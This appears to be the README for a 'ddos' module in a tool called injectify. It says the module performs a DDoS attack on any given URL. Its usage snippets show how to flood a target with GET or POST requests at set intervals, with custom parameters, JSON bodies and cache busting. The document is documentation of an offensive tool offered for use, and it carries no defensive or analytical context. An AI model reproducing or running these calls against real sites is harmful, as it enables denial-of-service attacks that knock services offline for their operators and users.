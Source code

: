 ## `ddos` module

Performs a DDOS attack on any given URL.

- Can perform GET & POST requests with custom parameters
- Custom `Content-type` headers (limited to only the current domain)
- Cache busting

## Usage

```js
/**
 * Basic DDoS attack
 */
injectify.module('ddos', 'http://example.com/')
// true


/**
 * Custom interval in milliseconds and without the cache buster
 */
injectify.module('ddos', {
    url: 'http://example.com/',
    interval: 10,
    random: false
})
// true


/**
 * Custom set of URL query parameters
 */
injectify.module('ddos', {
    method: 'GET',
    url: 'http://example.com/',
    params: 'param1=true&param2=false'
})
// true


/**
 * Different methods of passing the query parameters
 */
injectify.module('ddos', {
    method: 'POST',
    url: 'http://example.com/?param1=true&param2=true',
    params: {
        param3: true,
        param4: false,
    }
})
// true


/**
 * Send POST requests with a JSON body
 */
injectify.module('ddos', {
    method: 'POST',
    url: 'http://example.com/',
    type: 'application/json',
    body: {
        object: {
            value1: true,
            value2: false
        }
    },
})
// true
```

